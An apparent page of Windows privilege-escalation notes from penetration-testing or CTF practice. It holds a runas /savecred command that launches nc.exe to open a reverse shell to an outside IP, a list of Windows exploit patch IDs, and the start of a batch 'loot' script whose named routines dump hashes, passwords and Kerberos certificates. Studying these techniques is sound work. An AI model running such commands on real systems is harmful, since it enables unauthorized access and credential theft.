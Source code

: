 If there are entries, it means that we may able to `runas` certain user who stored his credentials in windows:

```
runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"
```

Windows Exploits by Patch:

```
MS10-015
MS10-059
MS10-092
MS11-080
MS13-005
CVE-2013-3660
MS13-053
MS13-081
MS14-058
MS14-068
MS14-070
MS15-001
MS15-051
MS15-052
MS17-010 - [https://github.com/worawit/MS17-010/](https://github.com/worawit/MS17-010/)
```

Windows Enumeration Script:

```batch
@echo OFF
call:credits
call:CheckOSbitrate
call:CheckOSversion
call:checkprerequisitefiles

call:checkquickwins
call:getfirewallinformation
call:getcomputerinformation
call:dumphashespasseskerberoscerts
call:findinterestingfiles
call:findinterestingregistrykeys
call:findpasswords
call:checkweakpermissions
call:cleanup
goto end

:credits
echo.----------------------------------------------------
echo.Author: Jollyfrogs, Brisbane QLD
echo.A root loot script I used to learn batch techniquesP, needs TLC
echo.----------------------------------------------------
echo.
goto:eof

:CheckOSbitrate
IF DEFINED ProgramFiles(x86) (set OSbit=64) else (set OSbit=32)
goto:eof

:checkprerequisitefiles
REM SOME OF THESE COMMANDS MIGHT GENERATE ERRORS SO WE CATCH THEM ALL HERE
echo ====================================================================
echo ====================== IGNORE THESE ERRORS =========================
dir jollykatz%OSbit%.exe /a/s/b 1> nul 2> NUL
IF %ERRORLEVEL% == 0 set jollykatz=1
for /f "tokens=1 delims=" %%a in ('whoami') do set whoami=%%a
```